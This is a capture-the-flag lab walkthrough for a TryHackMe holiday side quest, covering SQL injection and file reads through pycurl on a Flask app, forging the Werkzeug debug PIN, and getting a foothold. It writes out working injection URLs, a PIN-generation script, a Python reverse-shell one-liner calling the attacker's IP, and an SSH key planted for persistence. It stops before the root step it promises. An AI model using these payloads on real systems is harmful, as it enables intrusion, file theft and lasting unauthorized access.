# Side Quest 1

## TL;DR:
Find the git commit with the QR, SQL inject to generate a URL to SSRS the files needed to generate the Werkzeug PIN. Then use the python terminal to generate a reverse shell, find mcskidy's poor password hygiene, then hijack the sudo check script to get root.

---

Here it is, last and certainly not least. Lets go! Day

This one is a short enough path that I'll be keeping this all together. Please forgive the long form factor and follow along with my thought process, or just skip to the part you want: I'm not your dad.

To start with, here's our first hint:


The initial step of finding the room is pretty easy. As this is a GitLab instance, if we want to see what a user did we can just take a look at the commit history in the branch to see the full history of everything involved.

Some quick searching in Repository > Commits and we see something that stands out...



And in the change is a PNG, and a link to the room.


## Enumeration
Let's start with some basic enumeration to see what we have access to.

```bash
└─$ nmap -sC -sV -p- 10.10.79.182 -vv --min-rate 1500
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-23 10:36 PST
...
PORT     STATE SERVICE  REASON  VERSION
22/tcp   open  ssh      syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
...
8000/tcp open  http-alt syn-ack Werkzeug/3.0.0 Python/3.8.10
...
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 163.98 seconds
```

NMap shows us ports 22 and 8000.



On 8000 we see the identified Werkzeug Python app.

```bash
┌──(tokugero㉿kali)-[~/thm/rooms/aoc2023/task4]
└─$ gobuster dir -u http://10.10.79.182:8000 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -x txt,js,html,svg -t 40 --timeout=6s -o gobuster-task.txt --retry -b 404
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.79.182:8000
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,js,html,svg
[+] Timeout:                 6s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/download             (Status: 200) [Size: 20]
/console              (Status: 200) [Size: 1563]
```
In that app we see 2 end points with dirbuster, /download and /console




### Exploration
#### /download
This seems interesting as it looks like a general ID to return a file, let's try some things with it.



With Burp Suite we can see the download GET link.



Going to the id directly gets us a download.



We can also inject the ID in the URL bar and effect another download. This one goes to an elf that's not on the page, but it's not useful to the challenge either unfortunately.



Going even further, we can see an error returned when we go too far up the ID chain. The errors we get show that the "download" view gave an invalid response when it returns empty.


Testing some basic or 1=1; we can see that another download will still take place, meaning this is valid SQL injection. The result is the id=1 elf which tells us that the query is also a valid type. Let's take it a step deeper.

```bash
sqlmap -u "http://10.10.79.182:8000/download?id=" -p id

[10:23:50] [INFO] GET parameter 'id' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable 
...
[10:24:03] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
...
[10:24:11] [INFO] GET parameter 'id' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
```

With this we can see that we have several vectors that are available to us to target SQL, it's basically an unadulterated passthrough to the DB. Below is a generic attempt to use an injection payload from the Google to see if the first result will just give us something lucky:

```
http://<IP>:8000/download?id=11%27create%20table%20myfile%20(input%20TEXT);%20load%20data%20infile%20%27/etc/passwd%27%20into%20table%20myfile;%20select%20*%20from%20myfile;
```



Nothing lucky, BUT we do generate some source code from the app.py telling us where the app is located, and how the query is passed.

```
http://<IP>:8000/download?id=11%27%20union%20select%20%27test%27;
```




And trying the Union select method to give a generic test result, we can see some more interesting errors:

`pycurl.error: (6, &#39;Could not resolve host: test&#39;)`

Now I didn't piece this together right away, and I spent a long while longer trying other SQL payloads and exploring what MySQL features were available to me. But coming back to this thread, I found that PyCurl could be used to call on system files where MySQL was lacking the permissions to do so. The documentation isn't immediately clear on this, but various stack overflow articles pointed at using `file://` as a protocol might have some luck.



/etc/passwd!



The format in Firefox is pretty terrible, so rather than open every file manually, here's what it looks like in Burp Suite Repeater.



From here there's not much more to do, I could manually enumerate the file system but that would take forever, and I'm not 100% sure where the first flag is in relation to this pathing yet. There's still another vector anyway, so let's take a note that we have this new pathway and move on.

#### /console
Nikto and further dirbuster didn't have much more information about this endpoint. However, googling Werkzeug did.

[Werkzeug / Flask Debug - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug)

Apparently the Pin generation system does not have fantastic randomness built in, it's just for testing after all and loudly advertises to not enable the debug system on a production system. And yet, here we are.

Lets look a bit at this proposed code from HackTricks to generate our own pin #.

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id
]

#h = hashlib.md5() # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

Basically this posits that there is some information that is probably exposable publicly (i.e. error generation logs), and some information that is private only (requires exfiltration and not likely to be exposed...). It then takes those pieces of info and uses them to run through Werkzeug's Pin generation algorithm.
```python
probably_public_bits = [
    'web3_user',# username <= guess mcskidy based on path name
    'flask.app',# modname <= default modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__')) <= default class name
    '/home/mcskidy/.local/lib/python3.8/site-packages/flask/app.py' # getattr(mod, '__file__', None), <= from error page
]

private_bits = [
    '279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address <= exfiltrate with sqli/flask SSRS
    'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id <= exfiltrate with sqli/flask SSRS
]
```
Here's the bits we need to fill in. Username we can assume is "mcskidy" based on the context of the home directory it's running in, module name flask.app as a default value based on errors from the webapp, Class name "Flask", and the flask path based on the output from the error message.

```bash
/sys/class/net/eth0/address # guess at interface
/etc/machine-id
```
Some googling says this is where we'll find the private data on the system. We can use our earlier exploit to exfiltrate these values using the PyCurl SSRS vulnerability.

> The hard part: Sometimes this method doesn’t work and requires restarting the host and trying again. This is still a mystery to me.



Running the script as is with our new values inserted per the HackTricks documentation and we

You probably know the next steps for the reverse shells.

```bash
└─$ nc -lvnp 4446
listening on [any] 4446 ...
```

Open your favorite listener on your attack box, then spawn a shell to connect to your attack box from the victim

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<yourIP>",4446));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh") 
```

Easy as that!

```bash
└─$ nc -lvnp 4446
listening on [any] 4446 ...
connect to [10.13.8.186] from (UNKNOWN) [10.10.219.148] 38628
$ whoami
whoami
mcskidy
$ ls -alhn
ls -alhn
total 48K
drwxr-xr-x 6 1000 1000 4.0K Dec 13 17:29 .
drwxr-xr-x 3    0    0 4.0K Oct 19 19:54 ..
drwxrwxr-x 5 1000 1000 4.0K Oct 19 20:03 app
lrwxrwxrwx 1    0    0    9 Oct 19 20:40 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 1000 1000 3.7K Feb 25  2020 .bashrc
drwxrwxr-x 3 1000 1000 4.0K Oct 19 19:59 .cache
-rw-rw-r-- 1 1000 1000   47 Oct 19 20:00 .gitconfig
drwx------ 4 1000 1000 4.0K Oct 19 19:57 .local
lrwxrwxrwx 1    0    0    9 Oct 19 20:40 .mysql_history -> /dev/null
-rw-r--r-- 1 1000 1000  807 Feb 25  2020 .profile
-rw-rw-r-- 1 1000 1000   75 Oct 19 20:03 .selected_editor
drwxrwxr-x 2 1000 1000 4.0K Dec 13 17:28 .ssh
-rw-r--r-- 1    0    0   38 Oct 19 20:07 user.txt
-rw------- 1 1000 1000    0 Nov  2 15:40 .viminfo
$ cat user.txt
cat user.txt
THM{<REDACTED>}
```
And here's our first flag, even. I could have gotten this from the exfiltration vulnerability we found earlier, but this was way easier than guessing I think.
```bash
$ cat .gitconfig
cat .gitconfig
[user]
        email = mcskidy@proddb
        name = mcskidy
$ cd app
cd app
$ ls -alhn
ls -alhn
total 24K
drwxrwxr-x 5 1000 1000 4.0K Oct 19 20:03 .
drwxr-xr-x 6 1000 1000 4.0K Dec 13 17:29 ..
-rw-rw-r-- 1 1000 1000 1.5K Oct 19 20:03 app.py
drwxrwxr-x 8 1000 1000 4.0K Nov  2 15:41 .git
drwxrwxr-x 3 1000 1000 4.0K Oct 19 19:58 static
drwxrwxr-x 2 1000 1000 4.0K Nov  2 15:29 templates

```

And we continue enumerating as above. Just looking at some common files in the current path and poking around the path that the app is running in. Looks like our dev has some local .git projects that might have some juicy content. I'll tuck this information away for later.

```
ps
df -h
mount
sudo -l
```

Further quicky enumeration, as one does.




I spent an unreasonable amount of time trying to do full enumerations.


And it looks like there's no immediate sudo capabilities for our beloved McSkidy. We'll have to backburner that for a while.

```bash
$ echo "ssh-rsa <redacted>" >> /home/mcskidy/.ssh/authorized_keys
echo "ssh-rsa <redacted>" >> /home/mcskidy/.ssh/authorized_keys
$ exit
exit                                                                                                                
┌──(tokugero㉿kali)-[~/thm]
└─$ ssh mcskidy@10.10.219.148
The authenticity of host '10.10.219.148 (10.10.219.148)' can't be established.
ED25519 key fingerprint is SHA256:1ihhpXZNauh4CQNMsK3xDOE+ZxnZ+Ht9pNw9AL6Kqq8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.219.148' (ED25519) to the list of known hosts.
Last login: Wed Dec 13 18:15:09 2023 from 10.13.4.71
mcskidy@proddb:~$
```

In the meantime though, let's get a better shell while we're here. This might not be the most subtle breach of all time, but it'll be awful comfortable.

More Enumeration
I'm including these for completeness, though they're not entirely necessary to the rooting of this box. I just found that these tools were super neat and wanted to provide some details on a logical progression rather than an intuited one.

[GitHub - DominicBreuker/pspy: Monitor linux processes without root permissions](https://github.com/DominicBreuker/pspy)

This tool takes a PS poll every 100ms with color coding on userspace execution. I.E. Root = blue, McSkidy = pink, and now I can watch for sneaky cron jobs and subtle script behaviors.

[PEASS-ng/linPEAS at master · carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

This does everything I want to do on a system to understand it, and very loudly. There's a version for everyone and both of these are as simple to pop over as `scp` or a quick `python3 -m http.server` on the attack box to `wget` it over to the victim.

